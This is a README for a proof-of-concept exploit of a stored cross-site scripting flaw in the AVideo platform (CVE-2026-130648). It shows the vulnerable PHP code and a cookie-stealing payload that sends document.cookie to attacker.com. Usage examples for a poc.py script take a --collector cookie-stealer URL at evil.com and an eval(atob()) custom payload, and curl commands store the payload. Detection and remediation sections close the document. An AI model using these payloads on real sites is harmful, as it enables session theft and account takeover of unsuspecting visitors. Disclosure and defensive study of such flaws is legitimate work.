

<div align="center">

# CVE-2026-130648

### AVideo Platform — Stored Cross-Site Scripting (XSS)


</div>

---

## Overview

AVideo Platform (formerly YouPHPTube) <= 13.0 fails to sanitise the `videoLink`
parameter when saving a video entry via its JSON API. An authenticated attacker
(any registered user) can store an arbitrary JavaScript payload that executes in
the browser of every visitor who views the affected video's detail page, enabling
session theft, credential harvesting, or defacement.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-130648 |
| **CVSS 3.1** | `8.3 High` — `AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N` |
| **CWE** | CWE-79 (Improper Neutralisation of Input During Web Page Generation) |
| **Affected** | AVideo / YouPHPTube <= 13.0 |
| **Patch** | AVideo v13.1 |
| **Auth Required** | Low (any registered account) |
| **Disclosed** | 2026-11-19 |

---

## Vulnerability Details

`objects/videos.json.php` saves the raw `videoLink` value to the database and
later embeds it in a `<iframe src="...">` tag without encoding:

```php
// VULNERABLE — objects/videos.json.php (line ~312)
$videoLink = $_POST['videoLink'];          // no sanitisation
// ...
$obj->videoLink = $videoLink;             // stored raw in DB

// VULNERABLE — view/video.php (line ~87)
echo '<iframe src="' . $row['videoLink'] . '" ...>';   // CWE-79
```

A `javascript:` URI stored in `videoLink` executes when the browser renders the
iframe src attribute. Payload: `javascript:fetch('https://attacker.com/c?c='+document.cookie)`.

---

## Attack Flow



---

## PoC Usage

### Setup

```bash
pip install -r requirements.txt
```

### Scenario 1 — Cookie stealer (replace with your collector URL)

```bash
python poc.py -u https://avideo.corp \
  --username attacker --password P@ssw0rd \
  --collector https://evil.com/collect \
  --title "Free Movie HD"
```

### Scenario 2 — Alert PoC (non-destructive verification)

```bash
python poc.py -u https://avideo.corp \
  --username attacker --password P@ssw0rd \
  --payload "javascript:alert(document.domain)"
```

### Scenario 3 — Fingerprint only

```bash
python poc.py -u https://avideo.corp --check-only
```

### Scenario 4 — Custom payload with Burp proxy

```bash
python poc.py -u https://avideo.corp \
  --username attacker --password P@ssw0rd \
  --payload "javascript:eval(atob('BASE64_PAYLOAD'))" \
  --proxy http://127.0.0.1:8080 --insecure
```

### Manual curl reproduction

```bash
# 1. Login and capture session cookie
curl -sk -c cookies.txt -b cookies.txt \
  -X POST https://TARGET/objects/login.json.php \
  -d 'username=attacker&password=P%40ssw0rd'

# 2. Store XSS in videoLink
curl -sk -c cookies.txt -b cookies.txt \
  -X POST https://TARGET/objects/videos.json.php \
  -d 'videoLink=javascript:alert(1)&title=XSS+Test&description=test'

# 3. Find the new video ID and visit the trigger URL
curl -sk -c cookies.txt -b cookies.txt \
  "https://TARGET/objects/videos.json.php?action=getAll&limit=1" | python3 -m json.tool
# Visit https://TARGET/video/<id> to trigger
```

### Available flags

| Flag | Description |
|---|---|
| `-u / --url` | Target AVideo base URL |
| `--username STR` | Login username |
| `--password STR` | Login password |
| `--payload STR` | Custom XSS payload (overrides `--collector`) |
| `--collector URL` | Cookie stealer URL for auto-built payload |
| `--title STR` | Video title (default: random) |
| `--check-only` | Fingerprint only, skip exploit |
| `--proxy URL` | HTTP proxy |
| `--insecure` | Disable TLS verification |
| `-o / --output FILE` | Save results to JSON |
| `--timeout INT` | Request timeout (default: `15`) |
| `-v / --verbose` | Verbose output |

---

## Detection

| Indicator | Notes |
|---|---|
| `videoLink` field containing `javascript:` URI in `videos.json.php` POST | WAF / RASP rule |
| `<iframe src="javascript:` in rendered HTML | Content Security Policy (CSP) blocks inline JS |
| Outbound requests from visitor browsers to unknown domains | Network DLP / CSP violation report |
| New video entries with unusual `videoLink` values in DB | Database audit query |

---

## Impact

Stored XSS executing in victim browsers allows full session takeover, keylogging,
phishing overlays, and persistent malware delivery to every user who views the
poisoned video.

---

## Remediation

| Action | Detail |
|---|---|
| **Upgrade** | Update to AVideo v13.1 or later |
| **Sanitise** | Apply `htmlspecialchars()` / `filter_var()` to `videoLink` before storage |
| **CSP** | Add `Content-Security-Policy: default-src 'self'; frame-src https:` |
| **Allowlist** | Restrict `videoLink` to `https://` URIs only |

---

## References

- [AVideo GitHub — v13.1 Release](https://github.com/WWBN/AVideo/releases/tag/v13.1)
- [CWE-79: Cross-site Scripting](https://cwe.mitre.org/data/definitions/79.html)

---

> **Disclaimer:** Published for authorised security research only. Use exclusively
> on systems you own or have explicit written permission to test.
